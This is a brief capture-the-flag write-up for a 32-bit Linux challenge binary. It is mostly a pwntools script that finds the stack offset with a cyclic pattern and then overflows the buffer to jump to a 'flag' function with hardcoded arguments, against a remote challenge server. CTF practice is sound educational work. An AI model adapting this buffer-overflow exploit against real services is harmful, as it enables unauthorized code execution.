 we have an executable

Since it has no security measures we can smash the stack and return to any address we want.

The binary has an interesting function called `flag`
looking at the function, it needs to hardcoded parameters and then it prints the flag

```python
#!/usr/bin/env python2

# import all modules/commands from pwn library
from pwn import *

# set the context of the target platform
#  arch: i386 (x86 32bit)
#  os: linux
context.update(arch='i386', os='linux')

# create a process
elf = ELF('./vuln')
p = process('./vuln')
# send input to the program with a newline char, "\n"
#  cyclic(50) provides a cyclic string with 50 chars
p.sendline(cyclic(500))

# finding offset
p.wait()
core = p.corefile
stack = core.eip
offset = cyclic_find(stack)
print("OFFSET: ",offset)
# 2nd phase

p.kill()

 
c = remote('161.35.40.57',31064)
#c = process('./vuln')

padding = offset*asm('nop')
# addresses found using disassemble and search in gdb
flag = p32(elf.sym['flag'],endian='little')
payload = padding + flag + 4*b'a' + p32(0xdeadbeef, endian="little") + p32(0xc0ded00d, endian="little")
c.sendline(payload)
c.interactive()
```

